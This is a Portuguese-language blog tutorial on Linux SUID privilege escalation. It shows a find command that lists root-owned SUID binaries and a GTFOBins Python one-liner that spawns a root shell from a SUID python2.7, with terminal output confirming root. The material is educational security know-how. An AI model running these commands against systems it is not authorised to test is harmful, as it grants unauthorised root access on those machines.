 ```yaml
---
title: 'SUID Privilege Escalation'
date: '2020-09-07'
tags: ['hacking', 'privilege-escalation', 'linux']
summary: Privilege escalation é uma vulnerabilidade que permite que o hacker consiga elevar seus privilégios, obtendo acesso à recursos protegidos.
cover_image: https://reddyyz.github.io/images/posts/suid.jpg
draft: false
---
```


Privilege escalation é uma vulnerabilidade que permite que o hacker consiga elevar seus privilégios, obtendo acesso à recursos protegidos.<br/>
Neste artigo, vou explicar e demonstrar como escalonar seus privilégios através do SUID.

<TOCInline toc={props.toc} asDisclosure />

## SUID Privilege Escalation

### O que é o SUID

BIT SUID é uma permissão especial que faz com que quando um arquivo seja executado, este tenha as mesmas permissões do usuário proprietário deste arquivo. O que permite que outros usuários sejam tratados como root (ou algum outro usuário), ao executar o arquivo.

Vamos a um exemplo:

O root é dono de um arquivo que executa o comando passado por argumento, este arquivo tem o bit SUID, e todos os usuários tem permissão de executá-lo. Caso um usuário comum use esse script para executar um comando, esse comando será executado como root devido ao bit SUID.


### Encontrando arquivos com o bit SUID

Agora que já entendemos como funciona o bit SUID, vamos encontrar arquivos com o bit SUID e que o dono seja o root.

Para isso usaremos uma ferramenta que já vem com o linux chamada find, vamos ao comando.
```sh
find / -user root -perm /4000 2>/dev/null
```
<button class="copy" onClick="copy_to_clip2('find / -user root -perm /4000 2>/dev/null')">Copiar comando</button>

Explicando o comando:

Especifica o dono do arquivo `-user root`<br/>
Procura por arquivos com o bit SUID `-perm /4000`<br/>
Esconde os erros `2>/dev/null`

Resultado:

```sh
reddyyz@fsociety~$ find / -user root -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/chromium/chrome-sandbox
/usr/lib/xorg/Xorg.wrap
/usr/libexec/spice-client-glib-usb-acl-helper
/usr/share/code/chrome-sandbox
/usr/sbin/mount.cifs
/usr/sbin/mount.nfs
/usr/sbin/pppd
/usr/bin/mount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/python2.7
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/vncserver-x11
/usr/bin/kismet_cap_linux_wifi
/usr/bin/chfn
/usr/bin/bwrap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/kismet_cap_linux_bluetooth
/usr/bin/ntfs-3g
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/kismet_cap_nrf_mousejack
/usr/bin/Xtightvnc
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin64/vmware-user-suid-wrapper
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin32/vmware-user-suid-wrapper
```
Esses são todos os arquivos com permissão SUID que o dono é o root.

### Encontrando e explorando um privilege escalation

Olhando esses arquivos, um que chama atenção é o `/usr/bin/python2.7`.<br/>
Vamos verficiar se existe algum exploit conhecido para o python no [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), site com várias formas de privilege escalation.

![GTFOBins Python](/images/posts/gtfobins-python.PNG)

Encontramos uma forma de escalar nossos privilégios!<br/>
Vamos executar o comando `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```sh
reddyyz@fsociety:~$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
```
<button class="copy" onClick="document.get">Copiar comando</button>

Conseguimos escalar nossos privilégios com sucesso para root!